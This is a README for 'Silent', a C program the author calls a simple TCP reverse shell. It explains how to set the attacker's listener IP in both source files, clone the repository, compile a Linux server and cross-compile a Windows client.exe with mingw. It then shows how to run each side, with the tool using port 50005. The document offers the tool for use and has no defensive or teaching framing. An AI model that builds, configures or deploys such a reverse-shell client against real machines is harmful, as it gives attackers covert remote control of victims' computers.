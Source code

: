 # Silent is simple TCP reverse shell written on C.
![Alt Text](https://media.giphy.com/media/Kmr5zGPaFDWYiVBVIB/giphy.gif)
### In both files IP need to be changed to yours.

### For example:

### server.c

###### server_address.sin_addr.s_addr = inet_addr("192.168.0.100");

### client.c

###### ServIP = "192.168.0.100";

## Installation
```bash
git clone http://github.com/R4v3nG/silent.git
cd silent/server
gcc -o server server.c
cd ../client
i686-w64-mingw32-gcc -o client.exe client.c -lwsock32 -lwininet
```

## Usage
# Linux
```bash
./server
```
# Windows
```bash
client.exe
```
# Silent using 50005 port
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License
[MIT](https://choosealicense.com/licenses/mit/)
